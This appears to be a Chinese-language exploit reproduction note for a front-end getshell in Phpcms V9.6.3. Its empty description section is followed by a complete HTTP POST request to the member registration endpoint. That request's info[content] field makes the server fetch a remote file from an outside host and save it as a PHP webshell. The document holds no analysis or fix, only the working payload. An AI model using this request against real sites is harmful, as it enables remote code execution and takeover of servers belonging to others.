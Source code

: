 Phpcms V9.6.3 前台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

    POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 297
    Cache-Control: max-age=0
    Origin: http://www.0-sec.org
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Referer: http://www.0-sec.org/index.php?m=member&c=index&a=register&siteid=1
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,es;q=0.6,fr;q=0.4,vi;q=0.2
    Cookie: PHPSESSID=h5jo0216vveqr9blnh146tq5q5
    X-Forwarded-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    Connection: close

    siteid=1&modelid=2&username=520520&password=5205201&pwdconfirm=5205201&email=52052096%40163.com&nickname=52096&dosubmit=%E5%90%8C%E6%84%8F%E6%B3%A8%E5%86%8C%E5%8D%8F%E8%AE%AE%EF%BC%8C%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C&protocol=&info[content]=<img src=http://wwww.0-sec.org/xxx.txt?.php#.jpg>
